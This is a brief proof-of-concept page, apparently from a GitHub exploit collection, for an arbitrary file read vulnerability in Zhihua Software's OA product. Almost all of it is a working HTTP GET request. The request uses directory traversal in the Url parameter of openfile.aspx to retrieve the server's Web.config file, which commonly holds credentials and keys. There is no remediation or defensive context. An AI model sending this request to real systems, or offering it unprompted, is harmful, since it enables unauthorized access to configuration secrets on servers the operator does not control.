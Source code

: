 # zhihua_openfile_fileread

志华软件
```
GET /oa/isprit/module/openfile.aspx?Url=..\..\..\Web.config HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive
Cookie: ASP.NET_SessionId=vu5fjewt125x2erxrujcfj4p
Host: 
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
```

from: https://github.com/wy876/POC/blob/main/%E5%BF%97%E5%8D%8E%E8%BD%AF%E4%BB%B6/%E5%BF%97%E5%8D%8E%E8%BD%AF%E4%BB%B6openfile.aspx%E5%AD%98%E5%9C%A8%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E6%BC%8F%E6%B4%9E.md
